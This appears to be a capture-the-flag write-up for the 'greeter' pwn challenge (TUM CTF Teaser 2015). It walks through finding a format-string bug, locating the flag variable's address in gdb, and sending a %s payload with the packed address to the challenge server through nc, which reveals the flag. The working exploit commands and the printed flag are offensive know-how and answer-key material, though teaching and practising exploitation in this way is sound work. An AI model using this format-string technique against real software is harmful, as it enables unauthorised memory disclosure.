hxp{f0rm4t_sTr1ngs_r0ck}
[](ctf=tum-ctf-teaser-2015)
[](type=pwn)
[](tags=format-string)

#greeter (pwn 15)

```bash
$ file ./greeter
./greeter: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=2657dbbc9fbf7a266d2d963b4644d1c3b44d8304, not stripped
```
So we have a not stripped file.

```bash
$ ./greeter 
Hi, what's your name?
AAAAA
Pwn harder, AAAAA!
```
We can send in a name. It suffers form format string vulnerability.
```
$ ./greeter 
Hi, what's your name?
%x.%x
Pwn harder, b5eeae30.7227d7a0!
```
A little bit of analysis shows that the file reads in flag.txt to an address called flag which is not on the stack. Its on the heap. Since it is not on the stack we can't use repeated %x to read it. Also since the file is not stripped we can see the locations of each variable.
```bash
gdb-peda$ p &flag 
$1 = (char (*)[256]) 0x600ca0 <flag>
```

%s is a format specifier that prints out a string ftarting from a given pointer.
Now just figure out the offset.

```bash
$ python -c 'print "%x%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.AAAA"' | ./greeter 
Hi, what's your name?
Pwn harder, ffa0b88010c3b7a0.1096f620.10e32700.78252e78.78257825.252e7825.2e78252e.78252e78.252e7825.2e78252e.78252e78.41414141.0.0.0.0.0.0.AAAA!
````

Payload format:
> format_string+p64(address)

```
>>> p64(0x600ca0)
'\xa0\x0c`\x00\x00\x00\x00\x00'
```

Finally
```bash
$ python -c 'print "%x%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%s.%x.%x.%x.%x.%x.%x.\xa0\x0c`\x00\x00\x00\x00\x00"' | nc 1.ctf.link 1030
Hi, what's your name?
Pwn harder, 720fe23030bcc7a0.30900620.30dea700.78252e78.78257825.252e7825.2e78252e.78252e78.252e7825.2e78252e.78252e78.hxp{f0rm4t_sTr1ngs_r0ck}
.a.0.0.0.0.0.�
              `!
```

Flag
> hxp{f0rm4t_sTr1ngs_r0ck}
